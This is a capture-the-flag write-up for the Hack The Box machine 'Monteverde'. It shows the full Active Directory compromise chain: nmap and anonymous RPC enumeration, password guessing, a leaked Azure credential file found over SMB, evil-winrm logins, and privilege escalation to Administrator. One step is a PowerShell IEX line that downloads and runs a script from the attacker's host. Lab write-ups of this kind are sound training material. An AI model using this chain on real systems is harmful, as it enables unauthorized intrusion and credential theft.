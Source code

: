 - 2020-04-20
- HTB Monteverde

![machine profile](assets/htb_monteverde_profile.png)

**Summary:**
- Find credentials for user account over `msrpc`.
- Use credentials to enumerate SMB to discover more credentials.
- Exploit loose user permissions to dump Administrator credentials using Azure-ADConnect

**Setup:**
Add the box IP to our `/etc/hosts` file.

```console
$ printf "10.10.10.172\tmonteverde.htb\n" >> /etc/hosts
```

**Enumeration:**
Perform detailed portscan on the lower ports of `cascade.htb` using `nmap` to gather information on any exposed services. Then, perform a less resolute portscan to identify any open higher ports.

```console
$ sudo nmap -sC -sV monteverde.htb -oA nmap/initial; sleep 300 && \
    sudo nmap -p- -sS monteverde.htb -oA nmap/all-ports
$ cat nmap/initial.nmap
# Nmap 7.80 scan initiated Mon Apr  6 16:05:13 2020 as: nmap -Pn -sC -sV -oA nmap/initial monteverde.htb
Nmap scan report for monteverde.htb (10.10.10.172)
Host is up (0.041s latency).
Not shown: 989 filtered ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings:
|   DNSVersionBindReqTCP:
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-04-06 14:27:52Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=4/6%Time=5E8B453B%P=x86_64-unknown-linux-gnu%r(
SF:DNSVersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07vers
SF:ion\x04bind\0\0\x10\0\x03");
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -37m34s
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2020-04-06T14:30:13
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Apr  6 16:09:57 2020 -- 1 IP address (1 host up) scanned in 283.52 seconds
```

Kerberos stands out as an exploitable service for later. If we look at the LDAP services, the box has `MEGABANK.LOCAL0` as its FQDN, we add this to our hosts file along with `monteverde.htb`. Before we can interact with kerberos, we need to enumerate user accounts. A common theme is unsecured `msrpc` which allows us to anonymously connect and dump user account information.

```console
$ rpcclient //monteverde.htb -U "" -N
Unable to initialize messaging context
rpcclient $> enumdomusers
user:[Guest] rid:[0x1f5]
user:[AAD_987d7f2f57d2] rid:[0x450]
user:[mhope] rid:[0x641]
user:[SABatchJobs] rid:[0xa2a]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[svc-netapp] rid:[0xa2d]
user:[dgalanos] rid:[0xa35]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]
```

**User:**
If we try the username as the password for each user we have success with `SABatchJobs`. Next, we enumerate SMB as an authenticated user.

```console
$ python smbmap.py -H monteverde.htb -u SABatchJobs -p SABatchJobs
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.172...
[+] IP: 10.10.10.172:445	Name: monteverde.htb
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
...
	.
	dr--r--r--                0 Fri Jan  3 13:12:48 2020	.
	dr--r--r--                0 Fri Jan  3 13:12:48 2020	..
	dr--r--r--                0 Fri Jan  3 13:15:23 2020	dgalanos
	dr--r--r--                0 Fri Jan  3 13:41:18 2020	mhope
	dr--r--r--                0 Fri Jan  3 13:14:56 2020	roleary
	dr--r--r--                0 Fri Jan  3 13:14:28 2020	smorgan
	users$                                            	READ ONLY
```

After inspecting each folder we find what appears to be a config file.

```console
smb: \mhope\> dir
  .                                   D        0  Fri Jan  3 13:41:18 2020
  ..                                  D        0  Fri Jan  3 13:41:18 2020
  azure.xml                          AR     1212  Fri Jan  3 13:40:23 2020

		524031 blocks of size 4096. 519955 blocks available
```

Downloading this locally and opening we discover a password for mhope.

```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

We can now logon to the box using `evil-winrm` over `wsman` then collect our flag.

```console
$ evil-winrm -P 5985 -u mhope -p "4n0therD4y@n0th3r$" -i monteverde.htb

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\mhope\Documents> dir ../Desktop/user.txt


    Directory: C:\Users\mhope\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         1/3/2020   5:48 AM             32 user.txt
```

**Root:**
We look at the groups mhope is in to look for loose permissions.

```console
*Evil-WinRM* PS C:\Users\mhope\Documents> net user mhope
User name                    mhope
Full Name                    Mike Hope
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/2/2020 4:40:05 PM
Password expires             Never
Password changeable          1/3/2020 4:40:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory               \\monteverde\users$\mhope
Last logon                   4/22/2020 4:18:30 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Azure Admins         *Domain Users
The command completed successfully.
```

We see mhope is a member of `Azure Admins`, some searching leads us to [Azure-ADConnect.ps1](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1). The HTB VPN doesn't allow external connections so we download theh script to our local machine then spawn a HTTP server.

```console
$ wget "https://raw.githubusercontent.com/Hackplayers/PsCabesha-tools/master/Privesc/Azure-ADConnect.ps1"
--2020-04-22 13:57:52--  https://raw.githubusercontent.com/Hackplayers/PsCabesha-tools/master/Privesc/Azure-ADConnect.ps1
Loaded CA certificate '/etc/ssl/certs/ca-certificates.crt'
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.60.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.60.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2264 (2.2K) [text/plain]
Saving to: ‘Azure-ADConnect.ps1’

Azure-ADConnect.ps1          100%[===========================================>]   2.21K  --.-KB/s    in 0s

2020-04-22 13:57:52 (25.9 MB/s) - ‘Azure-ADConnect.ps1’ saved [2264/2264]

$ python -m http.server
```

Once downloaded we import the script on the remote machine then exploit.

```console
*Evil-WinRM* PS C:\Users\mhope\Documents> IEX (New-Object Net.WebClient).DownloadString('http://10.10.XX.XX:8000/Azure-ADConnect.ps1');
*Evil-WinRM* PS C:\Users\mhope\Documents> Azure-ADConnect -server 127.0.0.1 -db ADSync
[+] Domain:  MEGABANK.LOCAL
[+] Username: administrator
[+]Password: d0m@in4dminyeah!
```

We now have the Administrator credentials which we can use to connect to the box then read `root.txt`.

```console
$ evil-winrm -P 5985 -u Administrator -p "d0m@in4dminyeah!" -i monteverde.htb

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> dir ../Desktop/root.txt


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         1/3/2020   5:48 AM             32 root.txt
```
